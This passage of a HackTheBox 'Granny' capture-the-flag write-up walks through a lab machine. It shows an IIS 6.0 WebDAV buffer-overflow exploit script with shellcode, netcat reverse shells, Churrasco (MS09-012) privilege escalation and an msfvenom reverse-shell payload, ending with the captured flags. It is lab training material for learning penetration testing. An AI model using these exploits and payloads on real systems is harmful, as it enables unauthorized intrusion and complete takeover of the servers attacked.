smallsc='VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A'
pay+=smallsc
pay+='>\r\n\r\n'
print pay
sock.send(pay)
sock.send(shellcode)
data = sock.recv(80960)  
print data 
sock.close     
```

Now we can open a netcat listener and execute the exploit script! :D

```bash
┌──(root💀shiro)-[/home/shiro/HackTheBox/Granny]
└─# python exploit.py 10.10.10.15 80 10.10.14.3 1234                       1 ⨯
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾￿￿Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>

┌──(shiro㉿shiro)-[~]
└─$ nc -nlvp 1234 
listening on [any] 1234 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.15] 1248
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service

C:\Documents and Settings>cd C:\Documents and Settings
cd C:\Documents and Settings

C:\Documents and Settings>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\Documents and Settings

04/12/2017  09:19 PM    <DIR>          .
04/12/2017  09:19 PM    <DIR>          ..
04/12/2017  08:48 PM    <DIR>          Administrator
04/12/2017  04:03 PM    <DIR>          All Users
04/12/2017  09:19 PM    <DIR>          Lakis
               0 File(s)              0 bytes
               5 Dir(s)   1,382,207,488 bytes free

C:\Documents and Settings>cd Lakis
cd Lakis
Access is denied.

```

It seems like we can’t even access the user flag :(

# Privilege Escalation

Let’s run `systeminfo` to view the OS version.

```
C:\Documents and Settings>systeminfo
systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 23 Hours, 54 Minutes, 7 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 733 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,285 MB
Page File: In Use:         185 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

It seems like its running on `Windows Server 2003`. Let’s Google for some possible privilege escalation exploits! After reading through some websites, I found this vulnerability `MS09-012`.

Thereafter, I searched for possible exploits on GitHub that I could use and I found this [repository](https://github.com/egre55/windows-kernel-exploits/blob/master/MS09-012:%20Churrasco/Compiled/Churrasco.exe).

Let’s download the `pc.exe` and share it to the Windows machine through `impacket-smbserver`!

```bash
┌──(root💀shiro)-[/home/shiro/HackTheBox/Granny]
└─# wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe 
--2022-02-08 23:24:20--  https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/Re4son/Churrasco/master/churrasco.exe [following]
--2022-02-08 23:24:21--  https://raw.githubusercontent.com/Re4son/Churrasco/master/churrasco.exe
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 31232 (30K) [application/octet-stream]
Saving to: ‘churrasco.exe’

churrasco.exe       100%[==================>]  30.50K  --.-KB/s    in 0s      

2022-02-08 23:24:21 (295 MB/s) - ‘churrasco.exe’ saved [31232/31232]


┌──(root💀shiro)-[/home/shiro/HackTheBox/Granny]
└─# impacket-smbserver kali .
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Now, we need to create a `temp` directory in `C:\` to have writeable privileges. Then, we can copy the file over the SMB server we created.

```bash
c:\windows\system32\inetsrv>cd C:\
cd C:\

C:\>mkdir temp
mkdir temp

C:\>cd temp
cd temp

C:\temp>dir \\10.10.14.3\KALI
dir \\10.10.14.3\KALI
 Volume in drive \\10.10.14.3\KALI has no label.
 Volume Serial Number is ABCD-EFAA

 Directory of \\10.10.14.3\KALI

02/08/2022  05:09 PM    <DIR>          .
02/08/2022  02:53 PM    <DIR>          ..
02/08/2022  02:44 PM            12,312 exploit.py
02/08/2022  03:37 PM    <DIR>          wesng
02/08/2022  05:09 PM           168,179 churrasco.exe
               2 File(s)        192,779 bytes
               3 Dir(s)  15,207,469,056 bytes free

C:\temp>copy \\10.10.14.3\KALI\churrasco.exe .
copy \\10.10.14.3\KALI\churrasco.exe
        1 file(s) copied.

C:\temp>churrasco.exe
churrasco.exe
/churrasco/-->Usage: Churrasco.exe [-d] "command to run"
C:\WINDOWS\TEMP

C:\temp>churrasco.exe "whoami"         
churrasco.exe "whoami"
nt authority\system

C:\temp>churrasco.exe "cmd.exe"
churrasco.exe "cmd.exe"
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP> whoami
whoami
nt authority\system

C:\>ipconfig
ipconfig

C:\temp>whoami
whoami
nt authority\network service
```

It seems like the exploit works… but only for 1 single command :(

We can bypass this by creating a `msfvenom` payload as an `exe` file, transfer it through SMB server and then ask the exploit to run it!

```bash
┌──(root💀shiro)-[/home/shiro/HackTheBox/Granny]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=1337 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe

┌──(root💀shiro)-[/home/shiro/HackTheBox/Granny]
└─# impacket-smbserver kali .
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

C:\temp>copy \\10.10.14.3\KALI\shell.exe .
copy \\10.10.14.3\KALI\shell.exe
        1 file(s) copied.

C:\temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\temp

02/08/2022  05:32 PM    <DIR>          .
02/08/2022  05:32 PM    <DIR>          ..
02/08/2022  05:24 PM            31,232 churrasco.exe
02/08/2022  05:30 PM            73,802 shell.exe
               2 File(s)        105,034 bytes
               2 Dir(s)   1,322,684,416 bytes free
```

Now, we can start yet another listener on our machine and execute the `shell.exe` using `churrasco.exe`!

```bash
C:\temp>churrasco.exe "C:\temp\shell.exe"
churrasco.exe "C:\temp\shell.exe"

┌──(shiro㉿shiro)-[~/HackTheBox/Granny]
└─$ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.15] 1041
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system

C:\WINDOWS\TEMP>cd C:\Documents and Settings
cd C:\Documents and Settings

C:\Documents and Settings>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\Documents and Settings

04/12/2017  09:19 PM    <DIR>          .
04/12/2017  09:19 PM    <DIR>          ..
04/12/2017  08:48 PM    <DIR>          Administrator
04/12/2017  04:03 PM    <DIR>          All Users
04/12/2017  09:19 PM    <DIR>          Lakis
               0 File(s)              0 bytes
               5 Dir(s)   1,321,746,432 bytes free

C:\Documents and Settings>cd Lakis\Desktop
cd Lakis\Desktop

C:\Documents and Settings\Lakis\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\Documents and Settings\Lakis\Desktop

04/12/2017  09:19 PM    <DIR>          .
04/12/2017  09:19 PM    <DIR>          ..
04/12/2017  09:20 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   1,321,738,240 bytes free

C:\Documents and Settings\Lakis\Desktop>type user.txt
type user.txt
700c5dc163014e22b3e408f8703f67d1

C:\Documents and Settings\Lakis\Desktop>cd C:\Documents and Settings\Administrator\Desktop
cd C:\Documents and Settings\Administrator\Desktop

C:\Documents and Settings\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\Documents and Settings\Administrator\Desktop

04/12/2017  04:28 PM    <DIR>          .
04/12/2017  04:28 PM    <DIR>          ..
04/12/2017  09:17 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)   1,321,742,336 bytes free

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
aa4beed1c0584445ab463a6747bd06e9
```

